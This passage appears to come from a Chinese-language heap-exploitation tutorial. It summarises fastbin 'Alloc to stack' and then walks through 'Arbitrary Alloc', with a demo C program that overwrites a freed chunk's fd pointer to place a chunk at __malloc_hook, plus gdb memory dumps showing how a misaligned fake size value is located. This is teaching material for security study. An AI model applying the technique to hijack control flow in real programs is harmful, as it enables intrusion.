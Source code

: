 ```
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小總結
通過該技術我們可以把 fastbin chunk 分配到棧中，從而控制返回地址等關鍵數據。要實現這一點我們需要劫持fastbin 中 chunk 的 fd 域，把它指到棧上，當然同時需要棧上存在有滿足條件的size值。

## Arbitrary Alloc

### 介紹

Arbitrary Alloc 其實與 Alloc to stack 是完全相同的，唯一的區別是分配的目標不再是棧中。
事實上只要滿足目標地址存在合法的 size 域（這個 size 域是構造的，還是自然存在的都無妨），我們可以把 chunk 分配到任意的可寫內存中，比如bss、heap、data、stack等等。

### 演示
在這個例子，我們使用字節錯位來實現直接分配 fastbin 到**\_malloc_hook的位置，相當於覆蓋_malloc_hook來控制程序流程。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
這裏的0x7ffff7dd1af5是我根據本機的情況得出的值，這個值是怎麼獲得的呢？首先我們要觀察欲寫入地址附近是否存在可以字節錯位的情況。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```